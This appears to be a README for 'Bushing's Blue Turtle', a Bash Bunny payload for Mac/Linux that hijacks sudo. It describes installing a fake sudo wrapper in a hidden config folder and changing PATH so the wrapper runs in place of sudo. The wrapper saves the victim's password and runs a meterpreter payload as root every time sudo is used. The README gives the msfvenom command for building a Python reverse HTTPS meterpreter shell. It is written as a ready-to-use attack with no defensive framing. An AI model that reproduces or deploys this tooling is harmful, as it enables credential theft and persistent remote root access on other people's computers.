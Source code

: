 # Bushing's Blue Turtle: The sudo subverter

* Author: Michael Weinstein (@bionomicon)
* Version: 0.1
* Target: Mac/Linux

Mad credit to oXis for their attack approach.  Much of the code here was developed using SudoBackdoor as a reference.

Current dev status: I have tested this on a linux box and been able to pwn it repeatedly.  Everytime getting a root reverse shell.

## Description

Injector: Creates a folder called ~/.config/sudo where it puts a python wrapper for sudo and a meterpreter payload.  Next, it copies over the python sudo wrapper and meterpreter payload.  It then runs the initialization function in the wrapper script to set some environmental values like the actual path for sudo and the path for python.  The initialization function also initializes a file for saving sudo creds and slightly alters the meterpreter payload so it will fail silently if there is a bad network connection or other exception.  Finally, it will set a new value in the user's PATH so that they will be running this wrapper instead of actually doing sudo.  The main abnormality a user should see is a slight delay in being asked to enter their password.  After this wrapper runs the desired sudo command, it will use the captured password (although probably not absolutely necessary at this stage) to have sudo run the meterpreter payload.  That should open up a meterpreter session on the listening computer with root on the target. True pwnage. Every time they sudo something.
Cleaner: I will probably make a cleaner for this thing eventually for completeness sake... but really, why make a cleaner when this thing should give you multiple remote root shells?   

## Configuration

Inside the injector and the cleaner you can specify mac=true to switch the playload to macos mode.  I have not yet tested this, but will do so soon on a mac.  Works in linux.

## Crafting a meterpreter shell payload

Payloads should be crafted in msfvenom.  The meterpreter shell will be the python reverse https meterpreter payload.  The payload should be stored in the folder with the rest of the files for this bash bunny payload in a file called shell.py (stored on the target system as .sudo in the directory we created).  The command for generating an appropriate meterpreter shell payload is below:

```msfvenom -p python/meterpreter/reverse_https LHOST=<IP ADDRESS> LPORT=<PORT> -f raw > payload.py```

## STATUS  (Note that I used the same configuration as SudoBackdoor, but I am seeing different LED behaviors.  Will investigate this soon.)
Injector 

| LED              | Status               |
| ---------------- | -------------------- |
| White            |  Ready               |
| Amber blinking   |  Waiting for server  |
| Blue blinking    |  Attacking           |
| Green            |  Finished            |
    
Cleaner (when it is made)

| LED              | Status               |
| ---------------- | -------------------- |
| White            |  Ready               |
| Blue blinking    |  Attacking           |
| Green            |  Finished            |
